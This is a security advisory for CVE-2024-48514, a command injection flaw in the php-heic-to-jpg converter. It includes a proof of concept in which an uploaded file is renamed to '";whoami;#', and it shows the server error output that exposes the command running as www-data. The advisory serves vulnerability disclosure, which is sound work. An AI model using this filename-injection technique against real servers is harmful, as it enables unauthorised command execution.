


# CVE-2024-48514: php-heic-to-jpg is vulnerable to Code Injection

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** This allows code injection by a user who can upload heic images, which affects the php-heic-to-jpg converter.  
**Versions Affected:** <= 1.0.5  
**Version Fixed:** [PullRequest #34](https://github.com/MaestroError/php-heic-to-jpg/pull/34) (1.0.6)  
**Researcher:** Marco Ris (https://github.com/marcoris)  
**Disclosure Link:** https://github.com/MaestroError/php-heic-to-jpg/issues/32  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-48514  

## Proof-of-Concept Exploit
### Description
php-heic-to-jpg <= 1.0.5 is vulnerable to code injection. An attacker who can upload heic images is able to inject code on the remote server via the file name. As a result, the CIA is no longer guaranteed. This affects php-heic-to-jpg 1.0.5 and below.  

### Usage/Exploitation
Upload a HEIC image file and intercept the request, e.g. with Burp Suite. Rename the file name to `”;whoami;#` and forward the request. The response shows the following error message with the disclosed `whoami` information:

```
The file &quot;;whoami;# has been uploaded.<br>
RuntimeException: Couldn't convert HEIC to JPG: 'Not enough arguments, needs: [command] [file1.heic] [file2.jpg]\nCreated by MaestroError\nwww-data' | Bin used: 'heicToJpg' HEIC: 'uploads/";whoami;#' Full Command: '/var/www/html/src/../bin/heicToJpg "uploads/";whoami;#" "uploads/";whoami;#-16541469646585ff874c9302.07761671" 2>&1' Output from heif-converter-image exe:  in /var/www/html/src/HeicToJpg.php:204
Stack trace:
#0 /var/www/html/src/HeicToJpg.php(71):
Maestroerror\HeicToJpg->processImage('uploads/";whoam...')
#1 /var/www/html/src/HeicToJpg.php(319):
Maestroerror\HeicToJpg->convertImage('uploads/";whoam...')
#2 /var/www/html/src/HeicToJpg.php(32):
Maestroerror\HeicToJpg::convert('uploads/";whoam...')
#3 {main}
```  



